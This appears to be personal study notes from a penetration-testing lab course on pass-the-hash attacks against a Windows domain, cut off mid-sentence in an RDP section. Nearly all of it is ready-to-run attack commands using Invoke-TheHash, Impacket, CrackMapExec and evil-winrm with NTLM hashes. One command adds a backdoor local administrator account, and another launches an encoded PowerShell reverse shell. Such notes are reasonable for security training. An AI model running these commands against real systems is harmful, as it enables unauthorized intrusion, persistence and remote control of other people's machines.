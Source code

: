 ### **Invoke-TheHash with SMB**

- `cd C:\tools\Invoke-TheHash\`
- `Import-Module .\Invoke-TheHash.psd1`
- `Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose`

we can add revshell cmd (`Powershell #3 (base64)`) in -Command field to get reverse shell

### **Invoke-TheHash with WMI**

- `Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIA....*zAGUAKAApAA==*"`

# **Pass the Hash with Impacket (Linux)**

Using PsExec

- `impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453`

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

# **Pass the Hash with CrackMapExec (Linux) `NetExec is recommended`**

- `crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453`
- `crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami` for cmd execution

# **Pass the Hash with evil-winrm (Linux)**

- `evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453`

# **Pass the Hash with RDP (Linux)**

using `xfreerdp` , there are few caveats to this attack

• `Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:

![Untitled](Password%20Attacks%2088ea15aa39714a8a88573b29fcac0d3a/Untitled%201.png)

This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0. It can be done using the following command:
